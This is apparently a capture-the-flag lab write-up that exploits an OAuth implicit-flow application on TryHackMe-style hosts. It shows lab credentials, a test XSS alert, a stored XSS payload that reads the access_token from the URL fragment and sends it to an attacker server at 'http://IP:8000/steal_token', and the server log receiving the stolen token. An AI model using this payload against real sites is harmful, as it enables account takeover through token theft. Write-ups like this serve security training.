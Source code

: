 Let's visit:

```
http://factbook.thm:8080
```

![](cybersecurity/images/Pasted%2520image%252020250505142932.png)

If we click on sync, we get redirected here:

```
http://coffee.thm:8000/accounts/login/?next=/o/authorize/%3Fresponse_type%3Dtoken%26client_id%3DnpmL7WDiRoOvjZoGSDiJhU2ViodTdygjW8rdabt7%26redirect_uri%3Dhttp%253A%252F%252Ffactbook.thm%253A8080%252Fcallback.php
```

![](cybersecurity/images/Pasted%2520image%252020250505143010.png)

We can login using:

```
victim:victim123
```

Once we login, we are redirected to:

```
http://factbook.thm:8080/callback.php#access_token=412aJ4FYFecOTNaX2vJo0f1diZqpLC&expires_in=36000&token_type=Bearer&scope=read+write&state=
```

![](cybersecurity/images/Pasted%2520image%252020250505143054.png)

We can see that we can submit statuses, we can test `xss`:

```js
<script>alert("XSS")</script>
```

If we refresh the page, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250505143427.png)

This page is vulnerable to `xss`, we can perform the following `xss` payload to steal the token:

```js
<script>var hash = window.location.hash.substr(1);var result = hash.split('&').reduce(function (res, item) {var parts = item.split('=');res[parts[0]] = parts[1]; return res; }, {}); var accessToken = result.access_token; var img = new Image(); img.src = 'http://IP:8000/steal_token?token=' + accessToken; </script>
```

Once we submit it, if we refresh the page and have our python server ready, we can see this:

```python
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.11.136.34 - - [05/May/2025 19:34:13] code 404, message File not found
10.11.136.34 - - [05/May/2025 19:34:13] "GET /steal_token?token=412aJ4FYFecOTNaX2vJo0f1diZqpLC HTTP/1.1" 404 -
```
